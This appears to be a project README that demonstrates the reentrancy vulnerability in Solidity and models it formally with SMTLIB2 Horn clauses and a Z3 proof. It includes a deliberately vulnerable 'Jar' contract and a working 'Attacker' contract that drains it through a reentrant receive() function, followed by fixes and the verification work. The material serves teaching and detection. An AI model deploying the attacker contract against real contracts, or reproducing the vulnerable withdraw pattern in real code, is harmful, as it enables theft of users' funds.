

# Demonstrating the reentrancy vulnerability of smart contracts

The objective of this project is two folds.
The one is to demonstrate the reentrancy vulnerability of smart contract, and the second is to systematically detect a potential vulnerability of a solidity code through formal verification.
The solidity compiler solc has already equipped rich formal verification features due to model checkers and SMT solvers, but in order to carry out it for the reentrancy issue, a programmer has to be aware of such potential problems and explicitly put assertions in a source code, that surely requires skills for secure programming.  For this project, we don't suppose that programmers have such skills, and I am going to offer a prototypical solution for them, so that they get a warning of a presence of potential reentrancy vulnerability in their code wihtout any prerequisite secure programming knowdledge.

The rest of this document is organized as follows.  We first review what the reentrancy problem is.  Then secondly, we are going to see a running example of a vulnerable contract and an attacker contract.  Thirdly, we see a couple of security tips to prevent the problem, and forthly, we apply formal verification to find that our contract is indeed vulnerable, where we also go through a minimal background of formal verification.

The full source codes for this project is published on github.

# Reentrancy

The reentrancy is a cause of security problem which leads to a massive finnancial loss.
As the name suggests, it exploits a function whose execution leads to another execution of itself.  Let's take a look at a running example of a vulnerable solidity code.

## Vulnerable smart contract: Coin jar

The following code is a simple smart contract implmenting a coin jar.
```
// SPDX-License-Identifier: CC-BY-4.0
pragma solidity >=0.6.12 <0.9.0;

contract Jar {

    mapping(address=>uint) public balance;

    constructor() payable {

    }

    function deposit() external payable {
        balance[msg.sender] += msg.value;
    }

    function withdraw() external {
        require(balance[msg.sender] != 0, "zero balance");
        (bool s,) = msg.sender.call{ value: balance[msg.sender] }("");
        require(s, "In Jar.withdrow(), call() failed.");
        balance[msg.sender] = 0;
    }
}
```
It has two external functions, <code>deposit</code> and <code>withdraw</code>, which are respectively to deposit crypto currency to this jar contract and to withdraw one's deposit.  The state variable <code>balance</code> records which contract address has how much deposit, and it is increased as a deposit is made via the <code>deposit</code> function.  The function <code>withdraw</code> is used to withdraw all the asset which one has deposited so far.  It first checks that the balance is non-zero, send the deposit to the original asset owner (i.e. <code>msg.sender</code>), and then in case of the transfer is successful the balance is reset to zero.

This smart contract has a security problem due to the use of the <code>call</code> function.  Alrhough the call message is the null string (i.e. <code>""</code>), this invokes a payable function in case <code>msg.sender</code> is a smart contract, and the content of the payable function is in general unkonwn and hence arbitrary.

We are going to see that we can create a malicious contract which can steal money from the Jar contract by repeatedly calling the <code>withdraw</code> function of the Jar contract; that is why this vulnerability is called reentrancy.

## Attacking a vulnerable contract
The following smart contract is a successful attacker.
```
// SPDX-License-Identifier: CC-BY-4.0
pragma solidity >=0.6.12 <0.9.0;

interface IJar {
    function deposit() external payable;
    function withdraw() external;
}

contract Attacker {

    IJar public jar;
    address public owner;

    constructor(address _jar) payable {
        jar = IJar(_jar);
        owner = msg.sender;
    }

    function deposit() public {
        jar.deposit{ value: 1 ether }();
    }

    function attack() public {
        jar.withdraw();
    }

    receive() external payable {
        if (address(jar).balance >= 1 ether) {
            jar.withdraw();
        }
    }

    function withdraw() public {
        require (msg.sender == owner);
        (bool s, ) = owner.call{ value: address(this).balance}("");
        require (s);
    }
}
```
The definition of <code>IJar</code> stands for the interface to <code>Jar</code>.  This <code>Attacker</code> contract should be deployed with an argument the address of the target contract.  By <code>deposit</code>, this attacker contract makes a deposit in the target <code>Jar</code> contract.  Assuming we have made 1 ether of deposit, the <code>attack</code> funtion starts the main business of this attacker contract.  It calls <code>withdraw</code> function of the <code>Jar</code>, then the <code>Jar</code> contract sends 1 ether, the exact deposit amount, to the <code>Attacker</code> contract by means of the <code>call</code> function.  This <code>call</code> function invokes the <code>receive</code> function of the attacker contract, which again withdraw money from the <code>Jar</code> contract as long as the <code>Jar</code> contract owns at least 1 ether.  Reentering the <code>withdraw</code> function of the <code>Jar</code> contract, the balance of the attacker is still 1 ether, and hence it sends 1 ether to the attacker.  This process goes on until the asset of <code>Jar</code> subseeds 1 ether, namely, <code>Jar</code> loses nearly all its asset.

The following diagram illustrates the scenario.



## Demonstration

We demonstrate the reentrancy in an actual blockchain.
The full source code relies on various technologies such as solidity, hardhat, and ethers.js, and the demonstration is done on Sepolia testnet.


# Secure programming to prevent reentrancy

We discuss a couple of workarounds to prevent the above unfortunate story.

## Lock

A common solution is to use a lock object, which creates a critical region in the source code to prevent the unwelcomed execution through reentrancy.
Typically a lock object is a state variable of integer or boolean type.  Using boolean, it becomes true before it enters a critical region and false after the region, and in case it is already true before the critical region, the execution cannot enter the region.  A use of interger allows more flexibility by specifying the maximal number more than one for reentrancy, rather than exactly one in case of boolean.
In the <code>Jar</code> contract, the line of <code>msg.sender.call</code> should be a crucial part of the critical region.
An easy way of implementing it is to use <code>ReentranceGuard</code> of openzeppelin (https://github.com/binodnp/openzeppelin-solidity/blob/master/docs/ReentrancyGuard.md).
They provide a modifier <code>nonReentrant</code> which should be applied to a function.  In our example, the <code>withdraw</code> function is a right candidate to get this modifier, so that the whole content, surely including the above mentioned critical line, is under the control of the lock object.
The attacker contract fails to steal money, because in the first reentrancy (i.e. the secondary call of <code>withdraw</code>), the reentrancy is detected and the whole transaction is reverted.

## Updating the critical value before transfer

Another solution particularly applicable to our case is to set zero for <code>balance</code> immediately after checking the non-zero and before the transfer.
By this improvement, the attacker fails because the balance of the attacker is already zero and reentrancy doesn't make the second transfer.

## Underflow

Although I this option is not a practically recommendable workaround, at least in my personal opinion, I would like to mention it because it explains the importance of recent change of the solidity language to cause revert in case of arithmetical failures such as underflow, and also how attackers attempt is foiled by a revert.

Instead of putting zero for the balance, one can subtract the amount of transfer.  Then, in the reentrancy, it causes an arithmetical underflow error because the subtrantion makes the value of balance, that is of unsigned integer type, negative.  The attacker fails because the latest solidity reverts in case of underflow; the whole transaction is reverted.

This is a working solution, but the previous options look much better becuase they show a clear intention of preventing the reentrancy.  On the other hand, this explains that a revert is an effective mechanism of secure programming.

# Formal verification

As a case study, we apply formal verification in order to detect the reentrancy vulnerability of the jar contract.  We manually formalized a model of the jar contract, and use it to find a possible reentrancy which causes a change of persistent data, such as state variables of the contract and asset balances.  The safety property to check is that there is no reentrancy which causes multiple changes of asset balance, and we get a counter example for it, namely, an evidence showing a violation of the safety property.

The solc compiler has rich features of formal verifications due to model checking and SMT solvers.   in order to make use of these solc features, a programmer is required to put assertions properly, and that means one should know about security.
Our case study of formal verification indeed works to the above shown vulnerable smart contract without any modification of the solidity code, namely, a programmer is not required to know about security.
A drawback in comparison to existing solc formal verification is that our method issues probably too many warnings, those are a kind of false positives.
It is not possible to automatically determine what kind of reentrancy should be accepted and what should not be, so we would like to leave this problem for future work.  Currently the logical model of our smart contract for formal verification is manually implemented.  The automatic model construction, that solc does for (almost) arbitrary solidity code, is missing in our side, and left for future work, too.

## Reentrancy analysis

The vulnerability due to reentrancy is a major security problem of smart contract.
We practice formal verification by means of SMT solver concerning this security problem.

- Solidity code of the vulnerable smart contract and the attacker ([reentrancy.sol](sample-solidity/reentrancy.sol))
- SMTLIB2 model of the vulnerable smart contract and the security property ([jar.smt](smt/jar.smt))

### Example of reentrancy attack

The following contract, a coin jar, is vulnerable because of the way <code>withdraw()</code> has been implemented.
```
// SPDX-License-Identifier: MIT
pragma solidity >=0.6.12 <0.9.0;

contract Jar {

    mapping(address=>uint) public balance;

    constructor() payable {

    }

    function deposit() public payable {
        balance[msg.sender] += msg.value;
    }

    function withdraw() public {
        require(balance[msg.sender] != 0, "zero balance");
        (bool s,) = msg.sender.call{ value: balance[msg.sender] }("");
        require(s, "In Jar.withdrow(), call() failed.");
        balance[msg.sender] = 0;
    }
}
```
The expected use case is that anybody can make a deposit by calling <code>deposit()</code> with some value, and anytime in the future, the one can withdraw the deposit by calling <code>withdraw()</code>.
The problem arises when one uses the following contract <code>Attacker</code> to attack <code>Jar</code>, assuming the above Solidity code is available as <code>./Jar.sol</code>.
```
// SPDX-License-Identifier: MIT
pragma solidity >=0.6.12 <0.9.0;
import "./Jar.sol";

contract Attacker {

    Jar public jar;
    address public owner;

    constructor(address _jar) payable {
        jar = Jar(_jar);
        owner = msg.sender;
    }

    function deposit() public {
        jar.deposit{ value: 1 ether }();
    }

    function attack() public {
        jar.withdraw();
    }

    receive() external payable {
        if (address(jar).balance >= 1 ether) {
            jar.withdraw();
        }
    }

    function withdraw() public {
        require (msg.sender == owner);
        (bool s, ) = owner.call{ value: address(this).balance}("");
        require (s);
    }
}
```
The story goes in the following way.
The process starts from attacker's calling <code>deposit()</code> of <code>Attacker</code>; the balance of the jar contract now keeps that the contract <code>Attacker</code> has 1 ETH deposit.  Then the attacker calls <code>attack()</code>.  The execution goes to <code>withdraw()</code> of <code>Jar</code>, where it first checks that the message sender, i.e. the contract <code>Attacker</code> has deposited some ETH, and next it makes a payout by means of <code>call()</code>; as commonly done, it transfers money by sending the empty call data, i.e. <code>""</code>, to the depositor.
When the <code>Attacker</code> contract receives money, its <code>receive()</code> is executed.  It checks that the jar contract has at least 1 ETH, and if so, it tries to further withdraw 1 ETH by calling <code>withdraw()</code> of the <code>Jar</code> contract, which causes the so-called <i>reentrancy</i>.
As the condition <code>balance[msg.sender] != 0</code> is still satisfied, the jar contract again sends 1 ETH to the attacker, and it repeats until the ETH asset balance of the victim goes less than 1 ETH.

### Problem analysis

Jar sends money to an arbitrary address, that means, anybody who makes a deposit.  Here, there is a possibility of its sending money to an unknown smart contract rather than an EOA (externally owned account).  The prerequisite for successful withdrawal is that the balance <code>balance[msg.sender]</code> is positive.  As the balance is not changed before the actual money transfer, the prerequisite is samely satisfied in case of a reentrancy, hence it repeatedly sends money.  After the attacker stops the process, the the whole transaction will successfully be over without causing a revert; it just assigns <code>0</code> to <code>balance[msg.sender]</code> after all transfers were done.

Based on the above observation, our static program analyzer should issue a warning on a potential vulnerability due to the reentrancy attack, when there is a function which makes a money transfer such as:

1. Preconditions of the money transfer may be satisfied in a recursive call.
2. After carrying out the repeated money transfer, the transaction may successfully complete.

<!-- Note that a use of mutex makes the above 1. unsatisfied, and that Solidity's change (version 0.8 and above) to cause a revert in case of underflow makes 2. unsatisfied. -->

A commonly suggested cure for the vulnerability is to make use of mutex to prohibit the reentrancy.  Changing the balance before invoking <code>call</code> is also a solution.  On the other hand, if the business logic were to subtract the amount of the transferred money, it could cause a revert due to the underflow, and as a result, all unexpected sendings could be cancelled.

<!-- and a change of state variables before money transfer  -->

### Formal modeling

We give formal models of Jar.sol and its variants which are free from the reentrancy vulnerability.  We use the Horn clause-based framework which is same as one employed by the official solc compiler for its built-in formal verification [[1]](#1) [[2]](#2).
The aim of our formal modeling is:

1. To do verification without relying on explicit assertions in source codes which have to be done by a programmer with security knowledges, and
2. the process to obtain a formal model and security properties from a source code is formal so that it is to automatize.

Currently (as of June 2024) solc doesn't offer a feature automatically to detect reentrancy vulnerability without explicit assertions in source code.

We describe how the above mentioned Jar contract should be modeled in Horn clauses.  The code below follows SMTLIB2 format which theorem provers such as Z3 accepts as input.  The modeling of the contract follows existing research papers.

We use following custom sorts for address, uint, and mapping(address=>uint).
```
(define-sort A () (_ BitVec 256)) ;address
(define-sort BUINT () (_ BitVec 256)) ; bounded 256bit unsigned integer
(define-sort M () (Array A BUINT)) ;mapping from address to Int
```
Bitvector is used to represent 256 bit fixed size data, which is exactly the Solidity's uint256.

we declare boolean valued functions are to model functions deposit() and withdraw() and also to model the external behavior and the states of Jar contract.
```
(declare-fun P_alpha (M A BUINT BUINT M A BUINT BUINT Int) Bool)
(declare-fun P_omega (M A BUINT BUINT M A BUINT BUINT Int) Bool)
(declare-fun Q_alpha (M A BUINT BUINT M A BUINT BUINT Int) Bool)
(declare-fun Q_1 (M A BUINT BUINT M A BUINT BUINT Int) Bool)
(declare-fun Q_2 (M A BUINT BUINT M A BUINT BUINT Int) Bool)
(declare-fun Q_3 (M A BUINT BUINT M A BUINT BUINT Int) Bool)
(declare-fun Q_omega (M A BUINT BUINT M A BUINT BUINT Int) Bool)
(declare-fun S (M BUINT A BUINT M BUINT Int) Bool)
(declare-fun T (M BUINT A BUINT M BUINT Int) Bool)
(declare-fun Ext (M BUINT M BUINT) Bool)
(declare-fun Jar (M BUINT) Bool)
(declare-fun Init (M BUINT) Bool)
```
deposit() is modeled by P_alpha, P_omega, and S.
We take each function execution as step by step state transitions.
For this deposit(), 2 such states suffice, and hence we have two functions P_alpha and P_omega, respectively.  On the other hand, S is to model state updates due to executing deposit().  In principle, it determines whether there was a revert or not, and if so, it restores the original states to cancel the transaction, and otherwise, it updates the states.  Here we show the Horn clauses for P_alpha and P_omega.
```
(assert
 (forall ((b M) (l_b M) (s A) (l_s A) (v BUINT) (l_v BUINT) (l_r Int)
	  (tb BUINT) (l_tb BUINT))
	 (=> (and (= b l_b) (= s l_s) (= v l_v) (bvule buint0 v) (= l_r 0)
		  (= l_tb (bvadd tb l_v)) (bvule tb l_tb) (bvule l_v l_tb))
	     (P_alpha b s v tb l_b l_s l_v l_tb l_r))))

(assert
 (forall ((b M) (l_b M) (s A) (l_s A) (v BUINT) (l_v BUINT) (l_r Int)
	  (tb BUINT) (l_tb BUINT) (l_b^ M))
	 (=> (and (P_alpha b s v tb l_b l_s l_v l_tb l_r)
		  (= l_b^ (store l_b l_s (bvadd (select l_b l_s) l_v)))
		  (bvule (select l_b l_s) (select l_b^ l_s))
		  (bvule l_v (select l_b^ l_s)))
	     (P_omega b s v tb l_b^ l_s l_v l_tb l_r))))

(assert
 (forall ((b M) (l_b M) (s A) (l_s A) (v BUINT) (l_v BUINT) (l_r Int)
	  (tb BUINT) (l_tb BUINT) (b^ M) (tb^ BUINT) (r Int))
	 (=> (and (P_omega b s v tb l_b l_s l_v l_tb l_r)
		  (=> (not (= l_r 0)) (and (= b^ b) (= tb^ tb)))
		  (=> (= l_r 0) (and (= b^ l_b) (= tb^ l_tb)))
		  (= r l_r))
	     (S b tb s v b^ tb^ r))))
```
Let's see what the arguments of P_alpha and P_omega are.  b models the state variable balance of type mapping(address=>uint), s models the address of the sender, v models a value sent from the sender to this contract for the call to deposit(), and tb models the balance of the native cryptocurrency owned by this contract (standing for this.balance).
The original values of these variables b, s, v, and tb will be updated in the summary S only when the function call is over without reverting.  The variables with the prefix l_ are used for temporal memory for changes throughout an execution, and used to update states or discarded in case of a revert.  P_alpha is in charge of initialization.  l_b, l_s, l_v, and l_tb are initialized by the corresponding values in P_alpha.  Note that deposit() is a payable function and the balance of this contract is increased by msg.value, that is modeled by the equational constraints on tb etc. where overflow is also handled properly.  Here, bvadd is a function for addition of bitvectors, and bvule is the less than relation taking bitvectors as unsigned integers.
l_r is a temporal memory for the revert status, which is set to 0 (no error) in P_alpha.
The function deposit() consists of just one line.  After executing this line, we have a transition from P_alpha to P_omega.  The equational constraint comes straightforwardly to describe the state after the execution.  Here we use arithmetic for arrays, that involves operations select and store.  select takes two arguments, an array and an index, and returns a value at the index.  store takes three arguments, an array, an index, and a value, and returns a new array where the value at the index has been updated to be the given value.
The balance (a shared variable, not the native crypto of the contract) of the sender is increased by the sent value from a caller.  Note that overflow is handled as well.
S is to check whether the function execution reached its end, P_omega, with any revert or not, and in case there is a revert, i.e. l_r is non-zero, it restores the original states, and otherwise, it updates states by l_ prefixed-variables.
The arguments b^ and bt^ are in charge of the states when the execution is over.

Let's move on to the model of withdraw().
```
(assert
 (forall ((b M) (l_b M) (s A) (l_s A) (v BUINT) (l_v BUINT) (l_r Int)
	  (tb BUINT) (l_tb BUINT))
	 (=> (and (= b l_b) (= s l_s) (= v l_v) (= l_r 0) (= l_tb tb))
	     (Q_alpha b s v tb l_b l_s l_v l_tb l_r))))

(assert
 (forall ((b M) (l_b M) (s A) (l_s A) (v BUINT) (l_v BUINT) (l_r Int)
	  (tb BUINT) (l_tb BUINT))
	 (=> (and (Q_alpha b s v tb l_b l_s l_v l_tb l_r)
		  (not (= (select l_b l_s) buint0)))
	     (Q_1 b s v tb l_b l_s l_v l_tb l_r))))

(assert
 (forall ((b M) (l_b M) (s A) (l_s A) (v BUINT) (l_v BUINT) (l_r Int)
	  (tb BUINT) (l_tb BUINT) (l_tb^ BUINT))
	 (=> (and (Q_1 b s v tb l_b l_s l_v l_tb l_r)
		  (= l_tb^ (bvsub l_tb (select l_b l_s)))
		  (bvule (select l_b l_s) l_tb))
	     (Q_2 b s v tb l_b l_s l_v l_tb^ l_r))))

(assert
 (forall ((b M) (l_b M) (l_b^ M) (s A) (l_s A) (v BUINT) (l_v BUINT) (l_r Int)
	  (tb BUINT) (l_tb BUINT) (l_tb^ BUINT) (b^ M) (tb^ BUINT) (b^^ M) (tb^^ BUINT))
	 (=> (and (Q_2 b s v tb l_b l_s l_v l_tb l_r)
		  (and (Ext b^ tb^ b^^ tb^^)
		       (= b^ l_b) (= b^^ l_b^)
		       (= tb^ l_tb) (= tb^^ l_tb^)))
	     (Q_3 b s v tb l_b^ l_s l_v l_tb^ l_r))))

(assert
 (forall ((b M) (l_b M) (s A) (l_s A) (v BUINT) (l_v BUINT) (l_r Int)
	  (tb BUINT) (l_tb BUINT) (l_b^ M))
	 (=> (and (Q_3 b s v tb l_b l_s l_v l_tb l_r)
		  (= l_b^ (store l_b l_s buint0)))
	     (Q_omega b s v tb l_b^ l_s l_v l_tb l_r))))


(assert
 (forall ((b M) (l_b M) (s A) (l_s A) (v BUINT) (l_v BUINT) (l_r Int)
	  (tb BUINT) (l_tb BUINT) (b^ M) (tb^ BUINT) (r Int))
	 (=> (and (Q_omega b s v tb l_b l_s l_v l_tb l_r)
		  (=> (not (= l_r 0)) (and (= b^ b) (= tb^ tb)))
		  (=> (= l_r 0) (and (= b^ l_b) (= tb^ l_tb)))
		  (= r l_r))
	     (T b tb s v b^ tb^ r))))
```
Q_alpha is for the initial step.  Q_1 comes after the condition <code>balance[msg.sender] != 0</code> is true.  We model the next line of call() as two steps, where the first one is to send the native currency by Q_2 and the second is to process the call value by Q_3.  For simplicity we assume that the call() is always successful.  It is harmless to do so because in case call() is not successful, it is reverted by require().  Note that we should explicitly handle a revert if assert() was used here instead of require().  Q_omega comes after the last line <code>balance[msg.sender] = 0;</code>.  T is a summary for withdraw().

There are two new things, one of which is just a new function bvsub for the subtraction in bitvectors.  The other new thing is a model of an external behavior of the jar contract, that is crucial to handle a call to an unknown external contract, which is for this case a contract of the address msg.sender.
```
(assert (forall ((b M) (tb BUINT)) (Ext b tb b tb)))

(assert (forall ((b M) (s A) (v BUINT) (r Int)
		 (tb BUINT) (b^ M) (tb^ BUINT) (b^^ M) (tb^^ BUINT))
		(=> (and (Ext b tb b^ tb^)
			 (S b^ tb^ s v b^^ tb^^ r)
			 (= r 0))
		    (Ext b tb b^^ tb^^))))

(assert (forall ((b M) (s A) (v BUINT) (r Int)
		 (tb BUINT) (b^ M) (tb^ BUINT) (b^^ M) (tb^^ BUINT))
		(=> (and (Ext b tb b^ tb^)
			 (T b^ tb^ s v b^^ tb^^ r)
			 (= r 0))
		    (Ext b tb b^^ tb^^))))
```
In general, an unknown external function can make arbitrary several calls to the public functions of the jar contract.  The idea is to model such a sequence of transitions through an external behavior of the jar contract.  For the jar contract, Ext is defined as a boolean valued function which takes four arguments.  The first two represents a state which consists of b and tb, i.e. the public state variable balance and the amount of native crypto-asset of the jar contract.  In principle, we should enumerate all publicly available data of the contract relevant to the formal analysis.  The other two arguments represent a possible future state as a result of a sequence of transitions, which consists of function calls to deposit() and withdraw().

Now we are able to discuss the Horn clause of Q_3 (same as above)
```
(assert
 (forall ((b M) (l_b M) (l_b^ M) (s A) (l_s A) (v BUINT) (l_v BUINT) (l_r Int)
	  (tb BUINT) (l_tb BUINT) (l_tb^ BUINT) (b^ M) (tb^ BUINT) (b^^ M) (tb^^ BUINT))
	 (=> (and (Q_2 b s v tb l_b l_s l_v l_tb l_r)
		  (and (Ext b^ tb^ b^^ tb^^)
		       (= b^ l_b) (= b^^ l_b^)
		       (= tb^ l_tb) (= tb^^ l_tb^)))
	     (Q_3 b s v tb l_b^ l_s l_v l_tb^ l_r))))
```
This models that l_b and l_tb came from Q_2 goes to any l_b^ and l_tb^ satisfying Ext l_b l_tb l_b^ l_tb^, that means the state of l_b and l_tb goes to another state of l_b^ and l_tb^ due to a sequence of transitions.

Considering the lifetime of the contract, it has the initial state and the state changes through transactions.  This is modeled by Init and Jar as follows, assuming zeros is an empty mapping (all values are zero).  tb is arbitrary and represents that it may receive any amount of native asset through the deployment, as the constructor is payable.  Jar represents the contract's state, which is modeled as a tree whose root is of the initial state, and branches are formed due to one step transition without a revert.
```
(assert (forall ((tb BUINT)) (Init zeros tb)))

;; Jar
(assert (forall ((b M) (tb BUINT)) (=> (Init b tb) (Jar b tb))))

(assert
 (forall ((b M) (s A) (v BUINT) (tb BUINT) (b^ M) (tb^ BUINT) (r Int))
	 (=> (and (Jar b tb)
		  (T b tb s v b^ tb^ r)
		  (= r 0))
	     (Jar b^ tb^))))

(assert
 (forall ((b M) (s A) (v BUINT) (tb BUINT) (b^ M) (tb^ BUINT) (r Int))
	 (=> (and (Jar b tb)
		  (S b tb s v b^ tb^ r)
		  (= r 0))
	     (Jar b^ tb^))))
```
Here we are at the last step of formal modeling, that is to give the security property to detect the reentrancy vulnerability.
```
(assert
 (forall ((b M) (tb BUINT) (s A) (v BUINT)
 	  (b^ M) (tb^ BUINT) (r^ Int) (r_^ Int)
	  (b_^ M) (tb_^ BUINT))
  	  (not (and (Jar b tb)
		    (T b tb s v b^ tb^ r^)
		    (T b tb s v b_^ tb_^ r_^)
		    (= r^ 0)
		    (= r_^ 0)
		    (not (and (= b^ b_^) (= tb^ tb_^)))))))
```
This models that the result of a call to withdraw() is deterministic.  In case this property is violated, the SMT solver answers unsat and gives a proof log showing that there are two distinct results although the function call has started from the identical situation, the state (b, tb), by the caller s, the amount of sent native currency v, and has ended without a revert.

This security proprty is not very optimal in the sense that it causes false positive in the detection of the reentrancy vulnerability.  For example, it is better to make use of an invariance concerning the balances.  However, we employ the above mentioned assertion due to the following reasons.

- Generation of an invariance is not straightforward in a general case.  We prefer to leave it for future work
- We have faced a limit of computational power of the machine in case the assertion makes use of an invariance (still non-terminating in half a day of Z3 execution).  We should keep the problem manageable in seconds.

### Experiment

We are going to see how to practice formal verification by means of an SMT solver, that requires some optimization and modification due to a computational limitation etc.  At the end, we managed to get an evidence showing that our jar contract is indeed vulnerable due to reentrancy as follows:

- Assume the contract has the state ([1], 3), meaning that an account (say the account 0) has its deposit which amounts to 1 and the asset balance of the jar contract amounts to 3.
- Distinct transactions may happen when the account 0 calls withdraw():
    - the state of the contract ends up with ([0], 1)
    - the state of the contract ends up with ([0], 2)
- Although withdraw() is supposed to pay back to the caller the exact amount of the deposit, that is 1, the contract may pay back 2.
- This divergence comes from two distinct external behaviors, to ([0], 1) and to ([1], 2) from the state ([1], 2), are possible through a call to <code>msg.sender.call()</code> in <code>withdraw()</code>.

We will discuss the details of 
Executing Z3 for the model and the security property mentioned above, I didn't get an answer from Z3 in a reasonable time consumption (after half a day, I gave up).
The following version of the definition of Init enabled me to get an answer in a few seconds.
```
(assert (forall ((b M) (tb BUINT)) (=> (Init b tb) (Jar b tb))))
```
Contrary to the source code, this new model allows any balance at the deployment.  Although the initial balance should be all zero, and updates of the balance should be done by the functions deposit() and withdraw(), it seems computationally too demanding and not practicable.  This modification is benign to our purpose, and we accept it for this moment to get a result.

Another modification was limiting the size of the array, balance, and the maximal number for the uint to small numbers.  This means that we assume the number of users is small and also assume our system allows only small numbers for representing the amount of asset.  It is also benign for our purpose, that is, to detect the vulnerability.
In order to let the size of the balance array small, we give a custom definition for A, the data sort for the accounts.  For example, the following unit sort, namely, a singleton sort,
```
(declare-datatypes () ((Unit unit)))
(define-sort A () Unit)
```
is used to represent the case there is only one account holder in our system.
For the asset, we used the bitvector of length 2 representing numbers {0, 1, 2, 3}.

### Unsatisfiability proof

Z3 provides the following proof of unsatisfiability in seconds.  We are going to read off that it demonstrates the above mentioned divergent behaviors.
```
((set-logic HORN)
(declare-fun query!0 ((Array Unit (_ BitVec 2)) (_ BitVec 2) Unit (_ BitVec 2) (Array Unit (_ BitVec 2)) (_ BitVec 2) Int Int (Array Unit (_ BitVec 2)) (_ BitVec 2)) Bool)
(proof
(let ((?x2247 ((as const (Array Unit (_ BitVec 2))) (_ bv0 2))))
(let ((?x2347 (store ?x2247 unit (_ bv1 2))))
(let (($x2931 (query!0 ?x2347 (_ bv3 2) unit (_ bv0 2) ?x2247 (_ bv1 2) 0 0 ?x2247 (_ bv2 2))))
(let (($x534 (forall ((A (Array Unit (_ BitVec 2))) (B (_ BitVec 2)) )(Ext A B A B))))
(let ((@x3083 (asserted $x534)))
(let ((@x3082 ((_ hyper-res 0 0) @x3083 (Ext ?x2347 (_ bv2 2) ?x2347 (_ bv2 2)))))
(let (($x953 (forall ((A (Array Unit (_ BitVec 2))) (B Unit) (C (_ BitVec 2)) (D (_ BitVec 2)) (E (Array Unit (_ BitVec 2)))
                       (F (_ BitVec 2)) (G (Array Unit (_ BitVec 2))) (H (Array Unit (_ BitVec 2))) (I (_ BitVec 2)) )
                     (let (($x951 (and (Ext H I A C) (Ext A D E F) (not (= (select A B) (_ bv0 2))) (= D (bvadd C (bvmul (_ bv3 2) (select A B))))
                        (= G (store E B (_ bv0 2))) (bvule (select A B) C))))
           (=> $x951 (Ext H I G F))))
 ))
 (let ((@x2953 ((_ hyper-res 0 0 0 1 0 2) (asserted $x953) @x3082 ((_ hyper-res 0 0) @x3083 (Ext ?x2347 (_ bv1 2) ?x2347 (_ bv1 2))) (Ext ?x2347 (_ bv2 2) ?x2247 (_ bv1 2)))))
      (let (($x999 (forall ((A (Array Unit (_ BitVec 2))) (B Unit) (C (_ BitVec 2)) (D (_ BitVec 2)) (E (_ BitVec 2)) (F (Array Unit (_ BitVec 2)))
                            (G (_ BitVec 2)) (H (Array Unit (_ BitVec 2))) (I (_ BitVec 2)) (J (Array Unit (_ BitVec 2))) (K (_ BitVec 2)) (L (Array Unit (_ BitVec 2))) )
                           (let (($x997 (and (Ext A I J K) (Ext A E F G) (not (= (select A B) (_ bv0 2))) (= E (bvadd D (bvmul (_ bv3 2) (select A B))))
                                             (= I (bvadd D (bvmul (_ bv3 2) (select A B)))) (= H (store F B (_ bv0 2))) (= L (store J B (_ bv0 2)))
                                             (or (not (= L H)) (not (= K G))) (bvule (select A B) D))))
                                (=> $x997 (query!0 A D B C L K 0 0 H G)))) ))
           (mp ((_ hyper-res 0 0 0 1 0 2) (asserted $x999) @x2953 @x3082 $x2931) (asserted (=> $x2931 false)) false))))))))))))
```
The proof begins with the specification of the logic, that is HORN as we specified in the original model definition.
The function <code>query!0</code> is declared to have arguments of the sorts which are exactly same as the sorts of the universally quantified variables of the last assertion, the security property, in our model.  This function <code>query!0</code> is boolean valued, and this boolean value is meant to stand for the negation of the security property.  Recall that our unsatisfiability proof is an evidence of the fact that the negation of the security property holds under the condition that all the other assertions hold.  The negation of the security property is logically equivalent to an existential formula (due to the duality of the quantifiers), hence it suffices for Z3 to find concrete instantiation of those quantified variables of the security property to carry out the proof, which involves information on the divergent behaviors of the smart contract.

The next line opens the proof object.
We see a sequence of definitions due to <code>let</code> construct.
Variables with the prefix <code>?</code> points to data such as a mapping and a bitvector.  Also, the prefix <code>$</code> means a variable pointing to a boolean and <code>@</code> a proof.  The mapping is of the sort <code>Array Unit (_ BitVec 2)</code>, that is a mapping from the singleton to the bitvector of length 2.  Note that the singleton value is unique, and hence this mapping is isomorphic to the bitvector of length 2.  For brevity, we sometimes take this mapping just as a bitvector in the description below.

<code>?x2247</code> points to the balance whose value is constantly 0.  Here, <code>(_ bv0 2)</code> is 0 of the sort bitvecor of length 2.  We denote it as <code>[0]</code>.

<code>?x2347</code> is an array obtained by updating the 0th element (indicated by unit) of it to be 1, which <code>(_ bv1 2)</code> represents.  We denote it as <code>[1]</code>.

<code>$x2931</code> is a boolean value obtained by feeding to the function <code>query!0</code> the values <code>([1], 3, unit, 0, [0], 1, 0, 0, [0], 2)</code>, which is taken as a formula.  Those arguments are instances of universally quantified variables in the security property, and it looks as follows.
```
not (Jar([1], 3)
     & T([1], 3, unit, 0, [0], 1, 0)
     & T([1], 3, unit, 0, [0], 2, 0)
     & 0=0
     & 0=0
     & not ([0] = [0] & 1 = 2))
```
It is now clear that this proof is considering the case when the contract's status is <code>([1], 3)</code>; the balance <code>[1]</code> indicates that the 0th account holder has the deposit which amounts to 1, and the asset of the contract amounts to 3.  It is apparently true because we have the assertion which makes Jar hold for an arbitrary state.  Also, there are two transitions by <code>withdraw()</code> function.  One makes the state of the contract <code>([0], 1)</code> and the other makes <code>([0], 2)</code> without no revert, as the 7th argument of T which stands for the revert flag is 0 in the both cases.  Because <code>1=2</code> in the above formula is false, the last conjunct is true.  Note that a proof of falsity is desired in our unsatisfiability proof.  We are going to check that the two formulas of <code>T</code> are both shown true in the proof, then the negation of true, ie. false, is proven.

<code>$x534</code> is a formula <code>forall A, B(Ext(A, B, A, B))</code>.

<code>@x3083</code> is defined to point to the proof claiming <code>$x534</code>.
Due to our assertion on Ext, the formula <code>$x534</code> is apparently true.  The operator <code>asserted</code> makes a valid proof object of the formula from available assertions. 

